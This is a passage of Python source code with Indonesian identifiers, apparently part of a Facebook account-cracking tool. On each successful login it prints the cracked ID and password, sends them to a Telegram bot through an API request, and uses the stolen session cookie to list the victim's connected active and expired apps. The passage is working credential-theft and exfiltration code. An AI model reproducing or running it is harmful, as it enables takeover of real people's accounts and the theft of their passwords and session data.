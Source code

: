                                 infoakun += f'''\t\t[{hit1}] {muncul} {ditambahkan[hit2]}\n'''
                                hit2 += 1
                        if 'Anda tidak memiliki aplikasi atau situs web kedaluwarsa untuk ditinjau' in cek2:
                            infoakun += '\nTidak Ada Aplikasi Kedaluwarsa Yang Terkait\n'
                        else:
                            (hit1, hit2) = (0, 0)
                            infoakun += '\tAplikasi Kedaluwarsa :\n'
                            apkKadaluarsa = re.findall('\\/><div\\ class\\=".*?"\\>\\<span\\ class\\=".*?"\\>(.*?)<\\/span\\>', str(cek2))
                            kadaluarsa = re.findall('\\<div\\>\\<\\/div\\>\\<div\\ class\\=".*?"\\>(.*?)<\\/div\\>', str(cek2))
                            for muncul in apkKadaluarsa:
                                hit1 += 1
                                infoakun += f'''\t\t[{hit1}] {muncul} {kadaluarsa[hit2]}\n'''
                                hit2 += 1
                    print('\n')
                    statusok = f'''⪧ ❲ OK ❳\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n\n  ⁂ - ID ➛ {idf}\n\n\n  ⁂ - PASS ➛ {pw}\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n  ⁂ - URL ➛ https://www.facebook.com/profile.php?id={idf}&mibextid=ZbWKwL\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n- BY ➛ @ZAKI_2002\n'''
                    statusok1 = nel(statusok, style='green')
                    cetak(nel(statusok1, title='OK'))
                    requests.get('https://api.telegram.org/bot' + str(token) + '/sendMessage?chat_id=' + str(ID) + '&text=' + str(statusok))
                    cek_RAVEN(kuki)
    
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop += 1

def cek_RAVEN(kuki):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ➛ %s%s"%(P,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))
	except AttributeError:
		print ("\r    %s\033[0m cookie invalid"%(M))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ➛ %s"%(P,game[i].replace("Kedaluwarsa"," Kedaluwarsa")))
	except AttributeError:
		print ("\r    %s \033[0mcookie invalid"%(M))
